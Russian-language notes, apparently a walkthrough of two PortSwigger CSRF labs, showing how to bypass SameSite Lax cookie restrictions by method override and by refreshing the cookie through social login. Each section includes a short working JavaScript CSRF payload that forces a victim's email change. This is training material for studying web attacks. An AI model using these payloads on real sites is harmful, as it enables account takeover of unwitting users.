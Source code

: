 
---
## Обход SameSite Lax через переопределение метода (use exploit server)

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

Может быть полезным Burp расширение: `Param Miner`.

Сначала пробуем переопределить метод запроса с POST на GET:
1. Repeater->Change request method
2. Пробуем параметр **`&_method=POST`**: GET /my-account/change-email?email=q%40q.q**`&_method=POST`** HTTP/2
Эксплойт:
```javascript
<script>
document.location="https://{site.com}/change-email?email=q%40q.q&_method=POST"
</script>
```

---
## Обход SameSite Lax через обновление cookie (use exploit server)

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh

Cookies с ограничениями Lax SameSite обычно не отправляются в межсайтовых POST-запросах, но есть и исключения.  
  
Если веб-сайт не включает атрибут SameSite при установке cookie, Chrome автоматически применяет ограничения Lax по умолчанию. Однако, чтобы не нарушать механизмы единой авторизации (SSO), он не применяет эти ограничения в течение первых 120 секунд для POST-запросов верхнего уровня. В результате в течение двух минут пользователи могут быть подвержены межсайтовым атакам.

В лабораторной работе настроен механизм авторизации через сторонний сервис. Значит если мы обновим ограничение первых 120 секунд, вызываемое при авторизации через сторонний сервис, то сможем воспользоваться  cookie.

1. Repeater -> Engagement tools -> Generate CSRF PoC = $FORM
```javascript
$FORM
<script>
	window.open('https://{site.com}/social-login');
	setTimeout(changeEmail, 5000);

	const changeEmail = () => document.forms[0].submit();
	/* или
	function changeEmail() {
		document.forms[0].submit();
	}
	*/
</script>
```

---